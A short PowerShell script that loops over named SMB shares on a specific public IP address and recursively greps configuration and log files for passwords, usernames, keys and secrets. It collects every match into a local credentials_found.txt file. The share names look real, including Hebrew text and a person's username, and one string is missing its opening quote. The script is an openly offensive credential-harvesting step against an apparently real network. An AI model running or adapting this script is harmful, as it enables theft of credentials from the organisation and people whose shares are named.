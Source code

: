 $shares = "Adama", "Agan-Imprivata", "AGRIC", "allusr", "hilan", "Lab Results", NATIV P", "Oee_28", "ruslan.alanazarov", "vol", "w_Analytical Lab", "yosi temp", "מחלקת תפי אגן"  # Replace with actual share names from net view
foreach ($share in $shares) {
    Get-ChildItem "\\199.203.129.16\$share" -Recurse -Include *.txt,*.cfg,*.ini,*.json,*.log,*.xml 2>$null | 
    Select-String -Pattern "password|username|user|key|secret|credentials" | 
    Out-File -Append "C:\Temp\credentials_found.txt" -Encoding UTF8
}
